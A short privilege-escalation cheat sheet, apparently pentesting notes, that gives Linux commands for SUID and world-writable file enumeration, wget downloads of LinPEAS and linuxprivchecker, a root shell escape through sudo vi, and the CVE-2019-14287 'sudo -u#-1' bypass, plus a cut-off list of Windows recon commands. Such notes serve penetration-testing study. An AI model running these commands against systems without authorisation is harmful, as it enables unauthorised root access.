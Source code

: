 ```sudo -l (NOTE: lists commands a user can run as root) ```
	find /* -user root -perm -4000 -print 2>/dev/null
	
	Files and file systems:
	cat /etc/fstab
	
	(find world writable directories)
	find / \( -wholename '/home/homedir*' -prune \) -o \( -type d -perm -0002 \) -exec ls -ld '{}' ';' 2>/dev/null | grep -v root
	
	(find world writable directories for root)
	find / \( -wholename '/home/homedir*' -prune \) -o \( -type d -perm -0002 \) -exec ls -ld '{}' ';' 2>/dev/null | grep root
	
	(find world writable files)
	find / \( -wholename '/home/homedir/*' -prune -o -wholename '/proc/*' -prune \) -o \( -type f -perm -0002 \) -exec ls -l '{}' ';' 2>/dev/null
	
	(find world writable files in /etc)
	find /etc -perm -2 -type f 2>/dev/null
	
	(find world writable directories)
	find / -writable -type d 2>/dev/null
	
	LinPeas
	wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh
	
	Linux privesc checker
	wget http://www.securitysift.com/download/linuxprivchecker.py
	python linuxprivchecker.py
		
	
**Enumeration:** https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh
    
**Escaping Vi Editor:**
        sudo vi
        :!sh

**/etc/passwd:**
```format example: test:x:0:0:root:/root:/bin/bash```

```username:password (x represents password in /etc/shadow file):user id (UID):Group ID (GID): user id info (comment):home directory: command/shell```


**If Vulnerable to CVE-2019-14287 and has sudo permissions use:**
     	
		sudo -u#-1 /bin/bash
## Windows PrivEsc

**Gather Info:**

	To gather system information:

	systeminfo

	To check the OS version:

	systeminfo | findstr /B /C:"OS Name" /C:"OS Version"

	To check active network connections:

	netstat -ano

```